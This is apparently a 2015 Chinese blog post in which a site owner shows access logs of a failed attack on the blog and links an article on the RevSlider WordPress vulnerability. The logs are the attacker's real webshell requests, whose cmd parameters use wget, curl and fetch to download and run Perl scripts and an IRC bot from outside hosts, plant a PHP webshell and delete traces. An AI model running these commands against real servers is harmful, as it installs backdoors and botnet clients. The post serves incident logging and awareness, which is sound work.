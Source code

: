 ```yaml
---
layout: post
title:  "37.187.248.45又是什么鬼"
date:   2015-3-20 00:48:57 +0800
categories: 技术
use_code: true
---
```

这回我没事去看了看[http://identerprise.co.kr/css/qtalk.txt](http://identerprise.co.kr/css/qtalk.txt)这个文件，绝对不信这是蜘蛛了……

参考文章：[RevSlider Vulnerability Leads To Massive WordPress SoakSoak Compromise](http://blog.sucuri.net/2014/12/revslider-vulnerability-leads-to-massive-wordpress-soaksoak-compromise.html)

<!--more-->
    37.187.248.45 [20/Mar/2015:00:14:03 +0800] /blog/post/18/wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php 404 0.014 0.014 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:14:03 +0800] /blog/post/18/wp-content/plugins/showbiz/temp/update_extract/showbiz/spid2.php 404 0.013 0.013 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:14:02 +0800] /blog/post/18/wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://identerprise.co.kr/css/byroe.jpg;curl%20-O%20http://identerprise.co.kr/css/byroe.jpg;fetch%20http://identerprise.co.kr/css/byroe.jpg;mv%20byroe.jpg%20spid2.php; 404 0.009 0.009 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:14:01 +0800] /blog/post/18/wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://identerprise.co.kr/css/b.txt;curl%20-O%20http://identerprise.co.kr/css/b.txt;fetch%20http://identerprise.co.kr/css/b.txt;perl%20b.txt;rm%20-rf%20b.txt* 404 0.017 0.017 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:14:01 +0800] /wp-content/plugins/showbiz/temp/update_extract/showbiz/spid2.php 404 0.009 0.009 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq34
      37.187.248.45 [20/Mar/2015:00:13:58 +0800] /wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://identerprise.co.kr/css/byroe.jpg;curl%20-O%20http://identerprise.co.kr/css/byroe.jpg;fetch%20http://identerprise.co.kr/css/byroe.jpg;mv%20byroe.jpg%20spid2.php; 404 0.015 0.015 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:56 +0800] /wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://wawalo.wap.sh/bot.txt;curl%20-O%20http://wawalo.wap.sh/bot.txt;fecth%20http://wawalo.wap.sh/bot.txt;perl%20bot.txt%20irc.ayochat.or.id;rm%20-rf%20bot.txt* 404 0.015 0.015 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:57 +0800] /wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://identerprise.co.kr/css/b.txt;curl%20-O%20http://identerprise.co.kr/css/b.txt;fetch%20http://identerprise.co.kr/css/b.txt;perl%20b.txt;rm%20-rf%20b.txt* 404 0.013 0.013 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:56 +0800] /wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://identerprise.co.kr/css/qtalk.txt;curl%20-O%20http://identerprise.co.kr/css/qtalk.txt;fetch%20http://identerprise.co.kr/css/qtalk.txt;perl%20qtalk.txt;rm%20-rf%20qtalk.txt* 404 0.012 0.012 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:54 +0800] /blog/post/18/wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://wawalo.wap.sh/bot.txt;curl%20-O%20http://wawalo.wap.sh/bot.txt;fecth%20http://wawalo.wap.sh/bot.txt;perl%20bot.txt%20irc.ayochat.or.id;rm%20-rf%20bot.txt* 404 0.013 0.013 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:52 +0800] /blog/post/18/wp-content/plugins/showbiz/temp/update_extract/showbiz/nino.php?cmd=wget%20http://identerprise.co.kr/css/qtalk.txt;curl%20-O%20http://identerprise.co.kr/css/qtalk.txt;fetch%20http://identerprise.co.kr/css/qtalk.txt;perl%20qtalk.txt;rm%20-rf%20qtalk.txt* 404 0.009 0.009 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq34
      37.187.248.45 [20/Mar/2015:00:13:52 +0800] /blog/post/18/wp-admin/admin-ajax.php 404 0.015 0.015 4477 
    www.jithee.name POST HTTP/1.0 "-" "Mozilla/5.0 (Windows NT 5.1; rv:31.0) Gecko/20100101 Firefox/31.0" yq26
      37.187.248.45 [20/Mar/2015:00:13:49 +0800] /blog/post/18/wp-content/plugins/revslider/temp/update_extract/revslider/nino.php 404 0.014 0.014 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:48 +0800] /blog/post/18/wp-content/plugins/revslider/temp/update_extract/revslider/spid.php 404 0.013 0.013 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:48 +0800] /wp-admin/admin-ajax.php 404 0.016 0.016 4477 
    www.jithee.name POST HTTP/1.0 "-" "Mozilla/5.0 (Windows NT 5.1; rv:31.0) Gecko/20100101 Firefox/31.0" yq26
      37.187.248.45 [20/Mar/2015:00:13:45 +0800] /wp-content/plugins/revslider/temp/update_extract/revslider/nino.php 404 0.013 0.013 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:17 +0800] /blog/post/18/wp-content/plugins/revslider/temp/update_extract/revslider/nino.php?cmd=wget%20http://identerprise.co.kr/css/qtalk.txt;curl%20-O%20http://identerprise.co.kr/css/qtalk.txt;fetch%20http://identerprise.co.kr/css/qtalk.txt;perl%20qtalk.txt;rm%20-rf%20qtalk.txt* 404 0.014 0.014 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
      37.187.248.45 [20/Mar/2015:00:13:14 +0800] /wp-content/plugins/revslider/temp/update_extract/revslider/nino.php?cmd=wget%20http://identerprise.co.kr/css/b.txt;curl%20-O%20http://identerprise.co.kr/css/b.txt;fetch%20http://identerprise.co.kr/css/b.txt;perl%20b.txt;rm%20-rf%20b.txt* 404 0.009 0.009 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq34
      37.187.248.45 [20/Mar/2015:00:13:13 +0800] /wp-content/plugins/revslider/temp/update_extract/revslider/nino.php?cmd=wget%20http://wawalo.wap.sh/bot.txt;curl%20-O%20http://wawalo.wap.sh/bot.txt;fecth%20http://wawalo.wap.sh/bot.txt;perl%20bot.txt%20irc.ayochat.or.id;rm%20-rf%20bot.txt* 404 0.009 0.009 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq34
      37.187.248.45 [20/Mar/2015:00:13:09 +0800] /wp-content/plugins/revslider/temp/update_extract/revslider/nino.php?cmd=wget%20http://identerprise.co.kr/css/qtalk.txt;curl%20-O%20http://identerprise.co.kr/css/qtalk.txt;fetch%20http://identerprise.co.kr/css/qtalk.txt;perl%20qtalk.txt;rm%20-rf%20qtalk.txt* 404 0.699 0.699 4477 
    www.jithee.name GET HTTP/1.0 "-" "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.2) Gecko/20100115 Firefox/3.6" yq26
